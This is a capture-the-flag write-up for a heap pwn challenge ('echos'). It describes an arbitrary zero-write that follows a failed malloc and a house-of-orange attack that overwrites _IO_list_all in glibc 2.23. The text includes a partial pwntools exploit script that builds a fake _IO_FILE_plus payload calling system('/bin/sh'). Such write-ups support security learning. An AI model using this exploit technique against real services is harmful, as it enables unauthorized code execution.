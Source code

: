 In this chanllenge, I add the following code to prevent the noend's solution. 
```
if(s)
{
    int is_main_arena = (*(unsigned long long*)(s-8))&0x4;
    if(is_main_arena != 0)
    {
        exit(0);
    }
}
```

**2. bug**

The bug is still same with the noend. when malloc fail, it can cause arbitrary-address-wrrite-zeo.

**3. exploit**

The leak is easy, and I will skip that part.

when call malloc, when the main_arean region is not enough, it will use mmap to map a region which is  close to the libc library address.

So, we can modify some pointer of the libc library, and let the pointer point to the mmaped region.

I use the `house of orange`, use arbitrary-address-wrrite-zeo to modify  `_IO_list_all` pointer the 2nd and 3rd byte to zero (for example modify `0x7ffff7dd2540` to `0x7ffff7000040`), at `0x7ffff7000040`, we can set a fake `struct _IO_FILE_plus` structure.

the final script:
```python
from pwn import *

context.terminal = ['guake', '-n', os.getcwd(), '-e']
context.log_level = 'debug'
pc='./echos'
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc-2.23.so')

def ru(a):
    p.recvuntil(a)

def sa(a,b):
    p.sendafter(a,b)

def sla(a,b):
    p.sendlineafter(a,b)

def echo(size,content):
    p.sendline(str(size))
    sleep(1)
    p.send(content)
    k=p.recvline()
    return k

def pad(n):
    return '0'*n

def house_of_orange(libc,libc_addr):
    _IO_str_jumps_addr = libc_addr + libc.symbols['sys_sigabbrev'] + 0x1940
    payload = p64(0xfffffffffffffffe) + p64(0x61) + pad(8) + p64(libc_addr + libc.symbols['_IO_list_all']-0x10)
    payload+= p64(2) + p64(3) + pad(8) + p64(libc_addr + libc.search('/bin/sh').next())
    payload+= pad(0x80)
    payload+= p64(0xffffffffffffffff) + pad(0x10) + p64(_IO_str_jumps_addr-0x8)
    payload+= pad(8) + p64(libc_addr + libc.symbols['system'])
    return payload

```